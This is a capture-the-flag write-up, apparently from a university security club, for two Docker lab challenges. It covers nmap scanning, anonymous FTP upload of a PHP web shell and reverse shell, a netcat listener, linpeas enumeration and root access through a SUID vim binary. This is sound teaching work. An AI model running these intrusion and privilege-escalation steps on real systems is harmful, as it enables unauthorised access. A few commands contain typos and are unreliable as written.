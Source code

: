 ```yaml
---
title: "ComSec Introduction Writeup"
date: 2020-10-21T12:40:28+01:00
draft: false
description: "A writeup for the introduction to ComSec challenges."

tags: ["welcome", "TryHackMe", "Nmap", "writeup"]
categories: ["Academic Year 2020-21"]

author: "Tiago Pascoal"
---
```


## Nmap 1
Welcome to ComSec's first challenge! This week we will be targeting a docker container, to start it, issue the following two commands:

```sh
$ wget https://cov-comsec.github.io/posts/welcome_nmap/c1/docker-compose.yaml
$ sudo docker-compose up
[sudo] password for kali: 
WARNING: Found orphan containers (kali_evilweb_1) for this project. If you removed or renamed this service in your compose file, you can run this command with the --remove-orphans flag to clean it up.
Recreating kali_ftp_1  ... done
Recreating kali_smtp_1 ... done
Starting kali_ssh_1    ... done
Creating kali_web_1    ... done
Attaching to kali_web_1, kali_ssh_1, kali_smtp_1, kali_ftp_1
ftp_1   | Starting Pure-FTPd:
ftp_1   |   pure-ftpd  -c 30 -C 10 -l puredb:/etc/pure-ftpd/pureftpd.pdb -j -R -P localhost -p 30000:30059  
web_1   | AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 192.168.42.4. Set the 'ServerName' directive globally to suppress this message
web_1   | AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 192.168.42.4. Set the 'ServerName' directive globally to suppress this message
web_1   | [Fri Oct 22 23:08:37.325178 2021] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.25 (Debian) PHP/7.3.4 configured -- resuming normal operations
web_1   | [Fri Oct 22 23:08:37.326184 2021] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
```
**NB:** Despite the output, the target machine will be launched at 192.168.42.1!

### Nmap Scan
Now the point of this week is to learn Nmap, so lets start a scan with service detection and scripting turned on:

```sh
$ nmap -sV -sC 192.168.42.1 -T4
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 19:14 EDT
Nmap scan report for 192.168.42.1
Host is up (0.00021s latency).
Not shown: 996 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 127.0.0.1 is not the same as 192.168.42.1
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f5:f2:1d:64:04:1b:fd:92:22:7e:6b:71:b7:f4:72:49 (RSA)
|   256 4b:80:f8:74:c0:8d:aa:40:fc:38:02:16:9f:1c:3b:bd (ECDSA)
|_  256 a8:08:e5:35:12:d6:a4:cc:74:8f:4c:9c:02:62:f4:f1 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: 8d1d2dc2ddf0.lan, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=8d1d2dc2ddf0
| Subject Alternative Name: DNS:8d1d2dc2ddf0
| Not valid before: 2020-08-14T10:33:23
|_Not valid after:  2030-08-12T10:33:23
|_ssl-date: TLS randomness does not represent time
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ftp-uploads
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  8d1d2dc2ddf0.lan; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

It looks like we have 4 ports open. Let's check out the [web server](http://192.168.42.1).

From the scan, we can see that there is a directory named [/ftp-uploads](http://192.168.42.1) and we can see that a flag file has been stored.

![ftpanonymous](imgs/ftp_anonymous.png)

So you have one flag.To be honest this flag works more like a hint to tell you what you should do after this. So if you go back to your nmap scan you will see that you have a line "21/tcp open ftp Pure-ftp" so we have a file transfer protocol it is always good to check as this can sometimes be used for file upload to the machine you are attacking. But what's the mean of ftp-anonymous if you do a fast google search you will find out that when this happens you can have acces to ftp server without having to know the credentials.So lets try to connect to the ftp.

```bash
ftp 192.168.42.1
```
You will be asked to input the Name. You just have to type anonymous to connect.
If you do a "ls" you will be able do see the a file called FTPflag.txt which is the same file you found in the website. You type help you will see as the commands that you can use inside the ftp, we want to upload p0wnyshell so that we can get access to the machine through the browser. For now you just need to know that we are using p0wnyshell as our reverse-shell. So "ctrl+c" to stop the ftp connection clone p0wny shell repository [P0wny-Shell](http://github.com/flozz/p0wny-shell.git).
```bash
cd p0wny-shell
ftp 192.168.42.1
put shell.php
```
The last command is going to upload our shell.
If you go back to your browser and back to "/ftp-uploads/anonymous" you will see the file shell.php in there clicked and you will have p0wny-shell.![p0wny-shell](imgs/pwnyshell.png) So you succefully entered the machine. Let's look for the last flag. A easy way to find files on linux is using the file command.
```bash
find / -name "*.txt" 2>/dev/null
```
![findcommand](imgs/find_command.png)

Congratulations! Lets move to docker2

## Nmap 2

To start this challenge, use:

```sh
wget https://cov-comsec.github.io/posts/welcome_nmap/c2/docker-compose.yaml
docker-compose up
```

So to prove how important is nmap we setup a second nmap challenge but right now we not following the common ports as you can see in here. We mangled the ports from the [StandardPorts](imgs/commonports.pdf)

```bash
sudo nmap -sC -sV 192.168.42.1 -p-
```

![nmap2scan](imgs/nmap_2_scan.png)

In this challenge the ftp part is the same as the first challenge and the first flag is the same, the only difference is that the ports have been changed so if you to "http://192.168.42.1" the website is not going to load you need to instead look for something like this "192.168.42.1:8080".
So lets pass to the second part uploading files to ftp. We have ftp running on port 2121 (2121/tcp ccproxy-ftp) last time you use "ftp $ip" to connect this time that wont work cause you will need to specify the port os instead use something like this "ftp $ip port"
```bash
ftp 192.168.42.1 2121
```
Again use anonymous as login. 
In this challegne we introduced privesc so we will need a scrip to enumerate all te services that are being run on the machine, file permissions, file types, sym links ,etc.
There are 2 that are I know, LinEnum and linpeas. I prefer [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh){target=_blank}, instead of cloning the repository what I did is I open my prefered text editor on my kali box and I just copy/pasted the script. Then I stopped the ftp connection I cd to the directory where I have linpeas, I started the connection again and use the "put linpeas.sh" to copy linpeas to the machine. Besides linpeas we will need a php reverse shell, cause p0wny shell is not going to work in this challenge. Another good resource to put in your bookmarks, [PentestMonkeys](https://github.com/pentestmonkey/php-reverse-shell){target=_blank} I did the same process with both linpeas and the [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){target=_blank} so open your editor and "ctrl+c / ctrl+v" put hte ip of your kali box in the line where you see "" \\change this" and upload the file to the ftp.
So right now you should see something like this 

![ftpfodler](imgs/uploads2.png)

Which means you ready. Open a terminal and start netcat.
```bash
nc -lvnp 1234
```
Go to "192.168.42.1:8080/ftp-uploads/php-reverse-shell.php" the site should be loading for ever. If you go back to your terminal you should have access to the box.
Tip: everytime I get a reverse shell I try to find out what user I am.
```bash
whoami
```
Lets not forget we are in /var/www , we need to copy our linpeas script to tmp folder.
```bash
cp linpeas.sh /tmp
chmod +x linpeas.sh
./linpeash.sh
```
Take a look at the output and try to find the SUID section. If you don't know SUID is a type of permission that you have on linux that let's the user run the file or binary. 

![linpeas](imgs/linpeas.png)

That last line mentioning vim.basic maybe we can do some research and see how we can exploit it. Fortunately there is a good resource called [GTFOBins](https://gtfobins.github.io/) which is used for looking how we can exploit binaries look for vim and you will see that you can spawn a shell inside vim or using the command. 

```sh
:!/bin/sh
#or
vim -c ':!/bin/sh'
```

Now you are root!

```sh
cd /root
cat flag.txt
```

Congratulations on solving the first ComSec challenge. Don't forget to submit your flags on CTFd. If you need any help, feel free to comment below or contact us on discord!
